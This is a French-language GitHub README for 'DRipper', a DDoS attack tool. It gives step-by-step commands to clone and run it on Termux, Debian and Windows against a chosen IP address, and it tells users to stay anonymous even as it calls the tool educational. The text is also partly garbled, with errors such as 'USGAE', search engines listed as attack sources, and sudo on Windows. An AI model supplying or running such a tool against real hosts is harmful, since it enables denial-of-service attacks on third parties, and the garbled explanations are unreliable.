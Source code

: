 # ddos
Attaque ddos :

Un serveur d'attaque par déni de service distribuable (DDOS) qui coupe les cibles ou l'infrastructure environnante dans un flot de trafic Internet

Les attaques DDoS sont efficaces en utilisant plusieurs systèmes informatiques compromis comme source de trafic d'attaque. Les moteurs de recherche peuvent inclure des ordinateurs et d'autres ressources réseau telles que des appareils IoT.
D'un niveau supérieur, l'attaque DDOS est comme un embouteillage inattendu bloqué sur une autoroute, empêchant le trafic régulier d'atteindre sa destination.

## REMARQUE (Veuillez vous assurer que vous avez installé python 3 )


## Pour Termux

Pour utiliser le DRipper, tapez les commandes suivantes dans Termux :

pkg install git -y

pkg install python -y

pkg install python3 -y

sudo git clone https://github.com/greyhatworld/ddos.git

cd ddos

ls

python3 DRipper.py 

## USGAE

python3 DRipper.py -s [ip Address] -t 135

exemple: python3 DRipper.py -s 0.00.00.00 -t 135

## Pour les distributions GNU/Linux basées sur Debian
Pour utiliser l'application, tapez les commandes suivantes dans le terminal GNU/Linux.

sudo apt install git

sudo git clone https://github.com/greyhatworld/ddos.git

cd ddos

ls

python3 DRipper.py OU python2 DRipper.py

exemple: python3 DRipper.py -s 0.00.00.00 -t 135

## Pour Windows

sudo git clone https://github.com/greyhatworld/ddos.git

cd ddos

ls

python3 DRipper.py OU python DRipper.py

python3 DRipper.py -s [ip Address] -t 135

exemple: python3 DRipper.py -s 0.00.00.00 -t 135

# Noter:
Si vous rencontrez des problèmes, veuillez écrire à akkinnator@gmail.com. Ne pas utiliser pour se venger ! Assurez-vous de votre anonymat!
Il est fait uniquement à des fins de test.
Nous ne sommes pas responsables des abus ou des dommages causés par ce programme. Uniquement à des fins éducatives.
Merci.
 
## Exigences ▶

●🖥Système d'exploitation Linux (Kali 🐉 Ubuntu)

●📱Termux >

●🖥Fenêtres

# Modifié par Akkinntor
